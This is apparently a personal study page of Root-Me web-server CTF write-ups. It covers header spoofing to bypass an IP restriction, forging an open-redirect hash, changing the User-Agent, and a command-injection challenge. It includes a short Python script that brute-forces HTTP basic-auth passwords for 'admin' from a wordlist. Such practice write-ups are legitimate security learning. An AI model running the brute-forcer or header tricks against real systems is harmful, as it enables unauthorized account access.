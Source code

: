 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# 🏝 Rootme

## Web - Server

### [HTML - Source code](https://www.root-me.org/en/Challenges/Web-Server/HTML-Source-code)

F12 for flag

### [HTTP - IP restriction bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

``[`document`](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)``

![](<.gitbook/assets/image (39) (1).png>)

> **Syntax: X-Forwarded-For: \<client>,\<proxy1>,\<proxy2>,\<proxy3>**

Change IP at client to private IP by adding _**an X-Forwarded-For**_ header

![](<.gitbook/assets/image (13).png>)

### [HTTP - Open redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

![](<.gitbook/assets/image (35).png>)

It combines URL and hash md5 of that one, so that we just put other URL and hash of it.

![](<.gitbook/assets/image (29) (1).png>)

## HTTP - User-agent

change User-Agent to \`admin\`

![](<.gitbook/assets/image (18).png>)

## Weak password

```
import requests
from requests.auth import HTTPBasicAuth
url = "http://challenge01.root-me.org/web-serveur/ch3/"
usr = "admin"
words = open('common_password.txt','r').read().split('\n')
cnt =1
for pwd in words:
	print(pwd,cnt)
	
	res = requests.get(url, auth=HTTPBasicAuth(usr, pwd))
	
	if "401" not in res.text:
		print('Password is ' + pwd)
		break
	cnt +=1
```

![](<.gitbook/assets/image (39).png>)

## PHP - Command injection

![](<.gitbook/assets/image (32).png>)

![](<.gitbook/assets/image (33).png>)



``[`document`](https://portswigger.net/web-security/os-command-injection)``

##
